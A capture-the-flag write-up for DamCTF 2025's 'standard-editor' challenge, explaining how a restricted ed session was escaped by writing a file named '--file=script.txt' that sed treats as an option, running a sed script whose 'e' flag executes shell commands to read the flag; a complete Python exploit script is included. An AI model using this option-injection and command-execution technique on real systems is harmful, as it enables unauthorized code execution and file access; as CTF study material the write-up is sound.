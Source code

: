 # DamCTF2025 - standard-editor writeup

- Write-Up Author: looy3 


## Write up  

---

We were given no description for this challenge, just a netcat command. The command provided a simple terminal session which outputted only the text
```
[Sun May 11 12:34:33 UTC 2025] Welcome, editor!
Feel free to write in this temporary scratch space.
All data will be deleted when you're done, but files will
first be printed to stdout in case you want to keep them.
```
My gut instinct, based on the last line, is that command injection must be the solution. First, however, I had to figure out what input did in general. I quickly discovered that typing anything and hitting newline just rendered a ?. I didn't know what ed was at the time, so I mostly played around. By writing a Python script which inserted every ASCII character and hit newline, I discovered the following:
1. = returns 0
2. H gives verbose feedback
3. P returns a * after every new line
4. R, w, Q, q, a, c all return different errors or make close
From Google, I quickly discovered that netcat brought me to an Ed session. Ed is [is a line editor and one of the first parts of the Unix operating system that was developed, in August 1969](https://en.wikipedia.org/wiki/Ed_(software)). Google further revealed that there were several commands which should allow me to read/write/execute code. These commands are
1. ! you can run shell commands off this.
2. R/r/e /directory/flag.txt you can load into buffer or read the number of bytes in the flag through this command.
However, running these commands just gave me "directory access restricted" or "shell access restricted". This means that Ed was invoked with red or ed --restricted. So we will not be able to do very much with Ed command directly. To ensure I wasn't missing any commands, I checked what version of ed I was using. I found this on [stackexchange](https://unix.stackexchange.com/questions/657459/what-is-the-difference-between-gnu-ed-and-the-version-of-ed-that-ships-with-unix):
```
These are some other differences:

# as a comment character.

GNU: # is a comment command.
BSD: # is not a valid command.
Plan 9: Like BSD.
POSIX: Like BSD.
Behavior destroying unsaved work.

GNU: e, e !, and q always fails on the first try if the buffer is unsaved.
BSD: Like GNU, but using -s disables the warning.
Plan 9: Like GNU.
POSIX: Like GNU.
Exit status (this is a bit difficult to test thoroughly).

GNU: Terminates with a non-zero exit status if the last command caused an error.
BSD: Most errors cause non-zero termination only with -s.
Plan 9: Seems to never terminate with non-zero exit status.
POSIX: Termination with a zero exit status means "Successful completion without any file or command errors."
The s/// command, but with only the first /.

GNU: s/RE is an error.
BSD: s/RE behaves like s/RE/, which is the same as s/RE//p, i.e. it replaces the substring matching the regular expression RE with nothing and prints the modified line.
Plan 9: Like BSD.
POSIX: Like GNU.
Using ^ as an address.

GNU: ^ is an invalid address.
BSD: ^ addresses the previous line, just like -.
Plan 9: Like BSD.
POSIX: Permits ^ to be the same as -.
Combining the printing commands p, l, and n (like nl), and repeating commands while doing so (as in nlnl or pnnn).

GNU: Combining printing commands is allowed. Repeated commands are not permitted (although pp, nn, and ll are allowed since the standard allows adding p, n, or l to commands other than e, E, f, q, Q, r, w, or !).
BSD: Combining printing commands is allowed. Repeated commands are permitted.
Plan 9: Combinations of two commands out of the three are permitted (not nlp). Repeated commands are not allowed.
POSIX: The effect of combining printing commands is "unspecified".
Upon receiving a HUP signal, the current editing buffer is saved in a file called ed.hup in the current directory. If that fails, the buffer is written to $HOME/ed.hup. What happens if these names already exist?

GNU: The file ed.hup in the current directory will be overwritten if it is a regular file and it's owned by the current user. Otherwise, the file $HOME/ed.hup will be overwritten if it is a regular file owned by the current user. Otherwise, the buffer is lost.
BSD: Like GNU, but the current buffer is also available in a temporary file whose name matches /tmp/ed.*.
Plan 9: Like GNU.
POSIX: Like GNU.`
```
The challenge used GNU ed. Unfortunately, GNU ed doesn't really have any unique commands which would allow me to execute code externally.

Thus, as per my initial hunch, I assumed that either the file name or file contents are executed by something. To test this, I simply devised a python script (not using pwntools, although I should have :P) to test every possible ASCII combination in both the file name and file contents and then wrote it to the local directory (which is allowed under red). Two ASCII characters stood out to me: Both '-' and '.' yielded this error:
```
sed: invalid option -- ' '
Usage: sed [OPTION]... {script-only-if-no-other-script} [input-file]...

  -n, --quiet, --silent
                 suppress automatic printing of pattern space
      --debug
                 annotate program execution
  -e script, --expression=script
                 add the script to the commands to be executed
  -f script-file, --file=script-file
                 add the contents of script-file to the commands to be executed
  --follow-symlinks
                 follow symlinks when processing in place
  -i[SUFFIX], --in-place[=SUFFIX]
                 edit files in place (makes backup if SUFFIX supplied)
  -l N, --line-length=N
                 specify the desired line-wrap length for the `l' command
  --posix
                 disable all GNU extensions.
  -E, -r, --regexp-extended
                 use extended regular expressions in the script
                 (for portability use POSIX -E).
  -s, --separate
                 consider files as separate rather than as a single,
                 continuous long stream.
      --sandbox
                 operate in sandbox mode (disable e/r/w commands).
  -u, --unbuffered
                 load minimal amounts of data from the input files and flush
                 the output buffers more often
  -z, --null-data
                 separate lines by NUL characters
      --help     display this help and exit
      --version  output version information and exit

If no -e, --expression, -f, or --file option is given, then the first
non-option argument is taken as the sed script to interpret.  All
remaining arguments are names of input files; if no input files are
specified, then the standard input is read
```
You can see the steps I took to manually get this error:
![I hate alt text](https://github.com/looy3/ctf-writeups/blob/main/DamCTF/misc/imgs/imsadsadsadsaage.png)

I didn't bother with executing code from sed using . and rather focused on -. First, I tried --version. This worked. I found that we were using the latest version of GNU Sed.
```
[Sun May 11 13:00:19 UTC 2025] Welcome, editor!
Feel free to write in this temporary scratch space.
All data will be deleted when you're done, but files will
first be printed to stdout in case you want to keep them.
10
sed (GNU sed) 4.9
Packaged by Debian
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <https://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Written by Jay Fenlason, Tom Lord, Ken Pizzini,
Paolo Bonzini, Jim Meyering, and Assaf Gordon.

This sed program was built with SELinux support.
SELinux is disabled on this system.

GNU sed home page: <https://www.gnu.org/software/sed/>.
General help using GNU software: <https://www.gnu.org/gethelp/>.
E-mail bug reports to: <bug-sed@gnu.org>.
```
Cool. We can use sed. I tried other payloads, including 
```-n 's/.*/COMMAND/e'```
Dir access was blocked. Sed does allow for numerous wild cards though. But even then, sed only replied that it could not execute '' . It was reading my input as a singular string. I'd have to find a way to execute commands which could be written in a single string. Sed's man page reported the following:
```
--file=script-file

              add the contents of script-file to the commands to be executed
```
Pretty sure I could use that to execute a script file I made using ed (as I could only run one command in sed before session ended). Thus, the following payload, which contains a sed command 
```(s/.*/cd ..; ls .. -a; cd ..; cat flag/e)``` 

inside a script named 'script.txt' is executed by another file written as --file=script.txt with contents --file=script.txt. This finally provided the much wanted flag:

```
dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}
```

This is the full script with all of its sockets :P
```python
import socket
import string

def send_to_netcat(host, port, data):
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect((host, port))
            s.sendall(data.encode())
            s.shutdown(socket.SHUT_WR)

            response = b""
            while True:
                chunk = s.recv(4096)
                if not chunk:
                    break
                response += chunk
            return response.decode()
    except Exception as e:
        return f"Error: {e}"

if __name__ == "__main__":
    host = "standard-editor.chals.damctf.xyz"
    port = 6733
    commands = f"H\na\ns/.*/cd ..; ls .. -a; cd ..; cat flag/e\n.\nw script.txt\n1d\na\n--file=script.txt\n.\nw --file=script.txt\n"  
    data = commands
    response = send_to_netcat(host, port, data)
    print(response)
    print("\n\n\n")
```

